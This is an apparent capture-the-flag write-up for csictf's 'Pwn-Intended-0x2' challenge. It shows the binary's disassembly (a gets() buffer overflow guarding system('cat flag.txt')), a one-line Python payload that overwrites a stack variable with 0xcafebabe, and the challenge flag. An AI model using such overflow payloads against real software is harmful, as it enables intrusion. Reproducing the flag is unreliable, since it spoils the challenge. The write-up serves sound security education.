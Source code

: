 ```yaml
---
layout: post
title: "Pwn-Intended-0x2"
author: "AnandSaminathan"
tags: ['Pwn']
---
```


**Files**
- [pwn-intended-0x2]({{site.baseurl}}/assets/Pwn-Intended-0x2/pwn-intended-0x2)

## Solution

This is exactly same as [coffer-overflow-1](https://dunsp4rce.github.io/redpwn-2020/pwn/2020/06/26/coffer-overflow-1.html) from redpwn-2020. 
This time the variable has to be overwritten with a specific value instead of any random value. 

```
   	mov    rbp,rsp
   	sub    rsp,0x30
   	mov    DWORD PTR [rbp-0x4],0x0
   	mov    rax,QWORD PTR [rip+0x2ef4]        
   	mov    esi,0x0
   	mov    rdi,rax
   	call   0x401040 <setbuf@plt>
   	mov    rax,QWORD PTR [rip+0x2ef0]        
   	mov    esi,0x0
   	mov    rdi,rax
   	call   0x401040 <setbuf@plt>
   	mov    rax,QWORD PTR [rip+0x2eec]        
   	mov    esi,0x0
   	mov    rdi,rax
   	call   0x401040 <setbuf@plt>
   	lea    rdi,[rip+0xe60]        
   	call   0x401030 <puts@plt>
   	lea    rax,[rbp-0x30]
   	mov    rdi,rax
   	mov    eax,0x0
   	call   0x401060 <gets@plt>
   	lea    rdi,[rip+0xe6c]        
   	call   0x401030 <puts@plt>
   	cmp    DWORD PTR [rbp-0x4],0xcafebabe # magic value
   	jne    0x4011f0 <main+154>
   	lea    rdi,[rip+0xe66]        
   	call   0x401030 <puts@plt>
   	lea    rdi,[rip+0xe8a]        
   	mov    eax,0x0
   	call   0x401050 <system@plt> # system("cat flag.txt")
   	mov    eax,0x0
```

Using gdb, the distance between the starting address of the buffer and the address of the variable to be overwritten was found to be 44 bytes, so we can have some padding of 44 bytes and then have the magic value in little endian. This worked:

```shell
python2 -c "print 'A'*44 + '\xbe\xba\xfe\xca'" | ./pwn-intended-0x2
```

## Flag

```
csictf{c4n_y0u_re4lly_telep0rt?}
```





